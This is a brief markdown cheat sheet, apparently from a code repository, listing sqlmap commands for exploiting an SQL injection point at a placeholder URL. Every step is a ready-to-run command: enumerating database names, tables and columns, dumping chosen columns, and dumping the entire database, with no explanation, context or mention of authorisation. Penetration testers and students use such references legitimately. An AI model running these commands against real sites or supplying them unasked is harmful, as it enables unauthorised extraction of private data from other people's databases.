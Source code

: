 # Use sqlmap

## Command

Get database name

```bash
sqlmap -u "http://site/?param=vuln*" --thread 10 -v 6 --dbs
```

Get Tables

```bash
sqlmap -u "http://site/?param=vuln*" --thread 10 -v 6 -D <db_name> --tables
```

Get Column

```bash
sqlmap -u "http://site/?param=vuln*" --thread 10 -v 6 -D <db_name> -T <table_name> --column
```

Dump Data

```bash
sqlmap -u "http://site/?param=vuln*" --thread 10 -v 6 -D <db_name> -T <table_name> -C <column_name>,<column_name> --dump
```

Dump ALL

```bash
sqlmap -u "http://site/?param=vuln*" --thread 10 -v 6 --dump
```
